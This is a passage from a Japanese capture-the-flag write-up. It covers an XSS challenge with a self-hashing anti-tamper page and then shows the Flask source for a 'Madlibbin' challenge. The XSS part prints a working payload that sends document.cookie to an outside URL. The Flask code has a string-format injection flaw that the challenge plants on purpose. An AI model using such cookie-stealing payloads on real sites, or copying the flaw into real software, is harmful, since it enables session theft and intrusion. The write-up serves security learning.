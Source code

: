 自分自身を `XMLHttpRequest` で取得して HTML としてパースし、再帰的に要素の属性等を結合した文字列のハッシュ値をチェックしています。もしこのハッシュ値が DOCTYPE 宣言で設定されているものでなければ `document.documentElement.remove()` ですべての要素を削除されてしまいます。そのため、もし XSS ができても、これによって HTML の構造が変わってしまうためハッシュ値も変わり、すべての要素が削除されてしまいます。

なんとかならないかいろいろ試していると、`<img src=x onerror=alert(1)>` を投げたときに `alert` が発火しました。これを利用して `<img src=x onerror="(new Image).src='http://(URL)?'+document.cookie">` でフラグが得られました。

```
actf{its_all_relative}
```

### Madlibbin (150)
> The Pastebin for Mad Libs: Madlibbin, completely open source! Have fun madlibbin'!

以下のようなソースコードが与えられました。

```python
import binascii
import json
import os
import re
import redis

from flask import Flask
from flask import request
from flask import redirect, render_template
from flask import abort

app = Flask(__name__)
app.secret_key = os.environ.get('FLAG')

redis = redis.Redis(host='madlibbin_redis', port=6379, db=0)

generate = lambda: binascii.hexlify(os.urandom(16)).decode()
parse = lambda x: list(dict.fromkeys(re.findall(r'(?<=\{args\[)[\w\-\s]+(?=\]\})', x)))

@app.route('/', methods=['GET'])
def index():
	return render_template('index.html')

@app.route('/', methods=['POST'])
def create():
	tag = generate()
	template = request.form.get('template', '')
	madlib = {
		'template': template,
		'blanks': parse(template)
	}
	redis.set(tag, json.dumps(madlib))
	return redirect('/{}'.format(tag))

@app.route('/<tag>', methods=['GET'])
def view(tag):
	if redis.exists(tag):
		madlib = json.loads(redis.get(tag))
		if set(request.args.keys()) == set(madlib['blanks']):
			return render_template('result.html', stuff=madlib['template'].format(args=request.args))
		else:
			return render_template('fill.html', blanks=madlib['blanks'])
	else:
		abort(404)

if __name__ == '__main__':
	app.run()
```
